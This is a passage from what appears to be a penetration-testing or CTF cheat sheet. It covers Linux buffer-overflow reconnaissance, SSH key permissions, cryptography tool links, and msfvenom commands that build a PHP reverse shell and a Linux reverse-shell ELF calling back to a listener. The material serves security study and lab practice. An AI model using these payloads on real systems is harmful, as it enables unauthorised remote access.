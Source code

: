```python
    s.close()
except:
    print('Error connecting to server')
    sys.exit()
```

#### Linux BOF

* **Check ASLR:** `cat /proc/sys/kernel/randomize_va_space`
  * `0`: ASLR Disabled
  * `1` or `2`: ASLR Enabled
* **Check protections:** `gdb checksec <binary>`
* `ldd <binary>`
* `ltrace <binary>`
* **Tools:**
  * [GDB Peda](https://github.com/longld/peda)
  * [one\_gadget](https://github.com/david942j/one_gadget) (for finding RCE in libc)

***

### Misc

#### SSH Permissions

```bash
chmod 700 ~/.ssh
chmod 644 ~/.ssh/authorized_keys
chmod 644 ~/.ssh/known_hosts
chmod 644 ~/.ssh/config
chmod 600 ~/.ssh/id_rsa
chmod 644 ~/.ssh/id_rsa.pub
```

#### Msfvenom Payloads

```bash
msfvenom --list formats
msfvenom --list encoders

# PHP
msfvenom -p php/reverse_php LHOST=192.168.0.110 LPORT=443 > tmp.php

# Linux Elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

#### Cryptography

* **Cipher Identifier:**
  * [https://www.boxentriq.com/code-breaking/cipher-identifier](https://www.boxentriq.com/code-breaking/cipher-identifier)
  * [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)
* **Hash Identifier (Kali):** `hash-identifier`, `hashid`

